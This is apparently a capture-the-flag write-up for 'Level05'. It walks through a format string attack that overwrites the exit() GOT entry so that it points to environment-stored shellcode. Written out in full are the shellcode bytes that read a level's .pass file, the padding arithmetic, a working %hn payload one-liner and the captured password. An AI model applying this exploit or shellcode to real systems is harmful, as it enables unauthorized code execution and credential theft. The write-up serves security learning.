 # Level05

This binary features a simple `fgets()` input to an unprotected `printf()`, enabling us to do a **format string attack**.		
We can export some shellcode, and replace the `exit()` relocation address in the `GOT` to target our **shellcode** instead.		
However the offset is too great to write the address in one go using `%n`. We will have to write it 2 bytes at a time with the `short` modifier `(%hn)`.		

```bash
gdb level05
disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
...

export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'

using getenv.c
gcc -m32 getenv.c
./a.out
0xffffd87c
```

The address of `exit()` in `got` is `0x080497e0`.		
The address of our **shellcode** is `0xffffd87c`.		

```bash
./level05
aaaabbbb%10$p%11$p
aaaabbbb0x616161610x62626262
```

We can pass our 2 addresses at the start of our buffer and access them in $10 and $11 parameter indexes.		

The tricky part is calculating the correct padding that will determine what value each use of %n will print.		
```bash
0xffffd87c
printf %d 0xffff
65535
printf %d 0xd87c
55420		; value of first padding before substracting address string sizes (8)
65535-55420
10115		; value of second padding
```

Its important to keep in mind that changing the value of the first padding must be reflected in the second padding value since it is a difference.		

Each use of `%n` does not reset the counter so we must use the lowest value first as padding, the padding value for the second `%n` will be total padding - first padding (only  subtract the address strings (8) from the first padding so as not to count it twice in the second padding).		

```bash
python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55412d%10\$hn' + '%10115d%11\$hn'" | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

